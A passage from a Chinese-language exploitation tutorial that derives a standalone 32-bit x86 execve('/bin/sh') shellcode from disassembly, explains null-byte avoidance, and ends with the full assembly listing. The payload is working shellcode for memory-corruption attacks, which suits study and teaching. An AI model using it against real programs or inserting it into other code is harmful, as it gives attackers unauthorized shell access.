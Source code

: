 
其中关键点在 

```assembly
0x00000000004005c5 <+47>:   mov    edx,0x0
0x00000000004005ca <+52>:   mov    rsi,rcx
0x00000000004005cd <+55>:   mov    rdi,rax
0x00000000004005d0 <+58>:   call   0x400480 <execve@plt>
```

传递了三个参数并且call execve()。 直接使用这四条指令显然是不行的，shellcode需要能够独立运行并且尽量短小，这里的call 0x400480 <execve@plt>依赖plt表，前面的参数传递也依赖程序的数据段等，我们需要用汇编来重写这里的代码。 对于call 0x400480 <execve@plt>，我们可以用系统调用来重写，execve的调用号为：0xb，那么就有 

```assembly
mov al,0xb
int 0x80
```

这里的0x80是根据al的值进行系统调用。 为了传参方便，这里采用32位汇编的写法，把参数push到栈上就可以传递参数了。 先将"/bin/sh"压栈

```assembly
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
```

注意这里用xor eax,eax把eax置0，不使用mov eax,0的原因是这样会出现\x00，shellcode会被gets()这类函数截断。 esp指向当前栈顶，此时即指向"/bin/sh",我们把esp保存到ebx 

```assembly
mov ebx,esp
```

现在把两个参数压栈，eax为NULL(0)，ebx为"/bin/sh"的地址

```assembly
push eax
push ebx
```

此时esp指向数组argv，把它赋值给ecx。

```assembly
mov ecx,esp
xor edx,edx
mov al,0xb
int 0x80       ;通过中断0x80进行系统调用
```

所以有完整的代码： 

```assembly
section .text
global _start
_start:
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
push eax
push ebx
mov ecx,esp
xor edx,edx
mov al,0xb
int 0x80
```
